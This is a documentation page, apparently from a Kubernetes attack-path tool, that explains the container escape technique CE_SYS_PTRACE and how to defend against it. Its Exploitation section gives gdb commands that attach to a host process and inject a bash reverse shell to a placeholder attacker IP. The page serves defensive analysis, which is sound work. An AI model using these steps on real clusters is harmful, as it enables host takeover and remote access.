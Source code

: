```yaml
---
title: CE_SYS_PTRACE
---
```


<!--
id: CE_SYS_PTRACE
name: "Container escape: Attach to host process via SYS_PTRACE"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# CE_SYS_PTRACE

| Source                                | Destination                 | MITRE ATT&CK                                                        |
| ------------------------------------- | --------------------------- | ------------------------------------------------------------------- |
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Given the requisite capabilities, abuse the legitimate OS debugging mechanisms to escape the container via attaching to a node process.

## Details

The `SYS_PTRACE` capability, which allows the use of `ptrace()`. This system call allows a process to monitor and control the execution of another process. 

## Prerequisites

To perform this attack, the container must be started with the option `hostPID: true`, which enables the sharing of the PID address space between the container and the host operating system, allowing the container process to see every other process running on the host. And the container needs to be granted `SYS_PTRACE` and `SYS_ADMIN` capabilities. 

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/CE_SYS_PTRACE.yaml).

## Checks

From within a running container, determine whether it is running with the required capabilities:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff:	00000000a80425fb

# Decode the capabilities (on current box or offline) and check for CAP_SYS_PTRACE and CAP_SYS_ADMIN
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=00000000a80425fb | grep cap_sys_admin
capsh --decode=00000000a80425fb | grep cap_sys_ptrace
```

## Exploitation

Install a debugger into the container:

```bash
apt update && apt install gdb
```
Find a host process to target:

```bash
ps -ef # select a PID
```

Attach to the process and inject a shell command:

```bash
gdb -p <PID>
call (void)system("bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1'")
```

## Defences

### Monitoring

+ Monitor for GDB (or other debugging tools) installation. 
+ Detect invocation of ptrace() from within a container.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with additional powerful capabilities.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [EscapeSysPtrace](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/escape_sys_ptrace.go)

## References:

+ [Container Escape: All You Need is Cap (Capabilities)](https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities?hs_amp=true)
